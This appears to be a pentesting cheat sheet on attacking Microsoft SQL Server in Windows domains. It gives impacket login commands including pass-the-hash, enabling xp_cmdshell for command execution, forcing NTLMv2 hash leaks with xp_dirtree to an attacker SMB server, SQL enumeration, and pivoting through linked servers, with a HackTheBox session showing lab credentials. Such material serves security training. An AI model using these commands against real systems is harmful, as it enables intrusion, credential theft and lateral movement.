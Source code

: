 # Microsoft SQL service (port 1433)

If the Domain controller or any other windows machine have accessible Microsoft SQL service through the standar port 1433, or any custom port accessible, you can use a domain user credentials (or local user credentials) to login. In some cases this can lead to RCE through "xp_cmdshell" function, ntlm authentication relay through "xp_dirtree" function or get the NTLM v2 hash from the user running the service, enumerate databases, arbitrary querys, and migrate to other computers if are connected through "links".

You can login into the service using mssqlclient.py from impacket suite:

`mssqlclient.py <domain>/<user>:'<password>'@<ip>`

Pass-the-hash: `mssqlclient.py <domain>/user:@<ip> -hashes '<optional LM hash>:<NT hash>'`

Kerberos auth: `sudo rdate -n <ip> ; <domain>/<user>:'<password>'@<machine>.<domain> -k`

<br>

### Try an RCE:

Whatever user you loged in, try to use "xp_cmdshell" command to execute a command inside that machine:

`xp_cmdshell "whoami"`

If this fails for any reason (probably) try to enable this function with:

`enable_xp_cmdshell`

`reconfigure`

`xp_cmdshell "whoami"`

NOTE: Remember that 'sa' user is more likely to be able to run xp_cmdshell in the machine

<br>

### NTLM relay / hash grabbing / file enumeration

You can also try to get ntlmv2 hash for the user which is running the server. Then you can crack offline that hash to get credentials, or (if you suspect that credentials could have admin rights against another domain machine) you can use "ntlmrelayx" tool to relay the credentials and get RCE (or whatever) to second machine.

From your attacking machine: `smbserver.py -smb2support share .` (also "responder" tool will work)

Inside mssqlclient.py session: `xp_dirtree \\<your_smbserver_ip>\whatever`. You will get the NTLMv2 hash and try to crack.

For NTLM relay look for "responder" and "ntlmrelayx" functionalitys.

Additionally you can use xp_dirtree to enumerate files inside C volume or any other share: `xp_dirtree \\localhost\C$\`

<br>

### Database enumeration:

You can also make simple direct querys to enumerate the machine, users and sql process to get information:

Get all database: `EXEC sp_databases;` or `SELECT name FROM sys.databases;` "master", "tempdb", "model", "msdb" databases are coming from default.

Use specific database: `USE <database name>;`

Get tables from current database: `SELECT name FROM sys.tables;` or `SELECT * FROM information_schema.tables;`

Get content from specific table: `SELECT * FROM <table name>;`

Get columns from specific table: `SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('<table name>');`

Enumerate users and roles: `SELECT name FROM sys.syslogins;`


Other information you can enumerate from the machine:
```
SELECT @@VERSION;               -- Sql server version
SELECT SERVERPROPERTY('MachineName');  -- Hostname
SELECT SERVERPROPERTY('Edition');      -- Edition (Express, Standard, etc.)
SELECT SERVERPROPERTY('InstanceName'); -- Instance name
SELECT SERVERPROPERTY('ProductLevel'); -- Patch level

SELECT name, type_desc FROM sys.server_principals;   -- Server users
SELECT name, type_desc FROM sys.database_principals; -- Database users

SELECT * FROM sys.dm_exec_sessions;       -- Active sessions and connections
SELECT * FROM sys.dm_exec_connections;

SELECT * FROM sys.dm_exec_requests;       -- SQL process

sp_configure "show advanced options", 1 -- Show configuration options
```

<br>

### Links:

```diff
- Warning: This option might not be available if you are using an old version of imapcket.
Use v0.11 or above. In kali use command `impacket-mssqlclient`
```

When mssql service is conected to multiple machines (AD environment is a good example) you can access to this machines through mssqlclient.py. To do it just use `enum_links` option to see the "Linked servers" availables. Select any with `use_link "<name of linked server>"`. Now you are against a diferent machine, and you can try again xp_cmdshell or any step above.

Example:

```
┌──(xavi㉿kali)-[~/tools]
└─$ impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@10.10.11.89 -windows-auth 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (darkzero\john.w  guest@master)> enum_links


SQL (darkzero\john.w  guest@master)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL      

DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL      

Linked Server       Local Login       Is Self Mapping   Remote Login   
-----------------   ---------------   ---------------   ------------   
DC02.darkzero.ext   darkzero\john.w                 0   dc01_sql_svc   


SQL (darkzero\john.w  guest@master)> use_link "DC02.darkzero.ext"
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)>
```


<br>

Other interesting articles: https://one2bla.me/Breach-operations/attacking-mssql

<br>

Recomended labs to practice:
- Darkzero (Hackthebox)
- Signed (Hackthebox)
- Querier (Hackthebox) https://www.youtube.com/watch?v=hfzYnjBzW_k
